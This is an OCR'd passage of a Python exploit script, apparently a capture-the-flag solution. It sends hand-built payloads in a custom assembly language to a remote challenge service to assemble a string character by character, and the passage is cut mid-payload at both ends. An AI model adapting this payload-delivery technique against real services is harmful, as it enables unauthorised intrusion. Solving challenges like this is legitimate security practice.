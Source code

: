 ```python
			ADD l5,l2
			ADD l5,l4
			ADD l5,l4
			ADD l5,l4
			ADD l5,l4
			ADD l5,l4
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			INC l5
			DEC l5
			DEC l5
			DEC l5
			ADD l3, l5
			MQD l3, l4
			'''
			Payload = Payload.replace(b"\t\t\t", b"")
			Payload = convert_to_luma_asm(Payload)

			p.send(Payload)
			sleep(0.01)

			# Sending the 'g'
			Payload = b'''INC l4
			ADD l3,lax
			INC l0
			SUB l3,l0
			MQD l3,l4
			'''
			Payload = Payload.replace(b"\t\t\t", b"")
			Payload = convert_to_luma_asm(Payload)


			p.send(Payload)
			sleep(0.01)

			# Sending the 'a'
			Payload = b'''SUB l4,lax
			DEC l4
			DEC l4
			SUB l3,l0
			MQD l3,l4
			'''
			Payload = Payload.replace(b"\t\t\t", b"")
			Payload = convert_to_luma_asm(Payload)

			p.send(Payload)
			sleep(0.01)

			# Sending the 'l'
			Payload = b'''SUB l3,l0
			ADD l4,lax
			ADD l4,lax
```